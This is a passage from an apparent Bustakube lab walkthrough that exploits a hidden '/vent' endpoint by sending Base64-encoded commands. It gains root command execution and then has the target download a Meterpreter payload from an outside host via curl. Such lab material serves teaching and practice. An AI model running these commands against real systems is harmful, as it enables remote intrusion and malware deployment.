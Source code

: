 17. Observe that you received a standard HTTP 404 error. Here's an excerpt of the output from our test system:

    ```
    < HTTP/1.1 404 Not Found
    < Content-Type: text/html
    ```

18. Let's assume that you ran dirbuster for a while, trying different words on the end of the URL until you found a request that didn't give you a HTTP 404 status code.  The one you found was for `/vent`.  Try that with curl.

    ```shell
    curl http://bustakube-node-1:30080/vent
    ```

19. Observe the answer tells you that `/vent` takes a parameter called "cmd," which sounds like "command." Here's the output from our test system:

    ```
    /vent requires a parameter of cmd
    ```

20. Next, try passing a command in. We'll use "id".

    ```shell
    curl http://bustakube-node-1:30080/vent?cmd=id
    ```

21. Observe that you're told that this parameter must be Base64-encoded. Here's the output from our test system:

    ```
    cmd parameter must be Base64-encoded.
    ```

22. Try Base64-encoding "id" and passing it as the value for `cmd`:

    ```shell
    value=$( echo "id" | base64 -w 0)
    curl http://bustakube-node-1:30080/vent\?cmd=$value
    ```

23. Observe that you are running commands as root on the target.  Here's the output from our test system:

    ```
    uid=0(root) gid=0(root) groups=0(root)
    ```

24. Let's try that again, but now let's make the command we run be one that makes the target pull down a copy of our Meterpreter.

    ```shell
    cmd='curl -o /mrsbin http://10.23.58.30:9000/mrsbin'
    value=$( echo $cmd | base64 -w 0 )
    curl http://bustakube-node-1:30080/vent?cmd=$value
    ```
